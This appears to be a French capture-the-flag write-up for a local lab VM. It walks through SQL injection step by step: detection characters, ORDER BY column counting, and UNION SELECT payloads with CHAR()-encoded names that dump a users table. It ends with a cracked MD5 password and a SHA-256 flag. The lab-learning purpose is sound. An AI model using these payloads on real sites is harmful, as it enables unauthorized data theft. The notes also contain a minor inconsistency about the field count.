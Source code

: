 Source:,
- https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/
- https://www.w3schools.com/sql/sql_injection.asp

Une injection SQL se produit lorsqu’un utilisateur malveillant communique une entrée qui modifie la requête SQL envoyée par l’application web à la base de données.

1- Détecter la possibilité d'injection 

Ajouter l’une des payload ci-dessous après notre nom d’utilisateur et voir si cela provoque des erreurs ou modifie le comportement de la page : ‘ / « / # / ; / )

	1 OR 1=1
    Sur notre site cela affiche bien une erreur et dans l'URL nous avons la requete envoyee: http://192.168.56.102/index.php?page=signin&username=%27&password=&Login=Login#


2- Trouver le nombre de champs

ORDER BY permet de trier le résultat en précisant le(s) champ(s) ainsi que l'ordre (croissant ou décroissant). Mais ORDER BY peut également trier en se référant à la position du champ dans la requête. Si ce champ n'existe pas, la requête renverra une erreur et c'est exactement de cette manière que nous pouvons déterminer le nombre de champs : 1 ORDER BY 2 => Unknown column '3' in 'order clause'

    Il y a donc 2 champs

    Il faut donc que la requête que nous ferons après le mot UNION comporte très exactement 3 champs.

    1 UNION SELECT 1, 2
    1 UNION SELECT 1, database()
        Cela affiche: Member_Sql_Injection
    1 UNION SELECT 1

    1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)
        Cela affiche: users

    1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110) AND TABLE_NAME = CHAR(117,115,101,114,115)
        Cela affiche: me, user_id, first_name, last_name, town, country, planet, Commentaire, countersign

    1 UNION SELECT 1, user_id FROM users 
    1 UNION SELECT 1, first_name FROM users (surname flag au 5)
    1 UNION SELECT 1, last_name FROM users (surname GetThe au 5)
    1 UNION SELECT 1, town FROM users (surname 42)
    1 UNION SELECT 1, country FROM users (surname 42)
    1 UNION SELECT 1, Commentaire FROM users (surname Decrypt this password -> then lower all the char. Sh256 on it and it's good !)
    1 UNION SELECT 1, countersign FROM users (prendre le 5eme)

	https://www.dcode.fr/fonction-hash

    md5 decrypt: 5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo

    sha256:
	10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5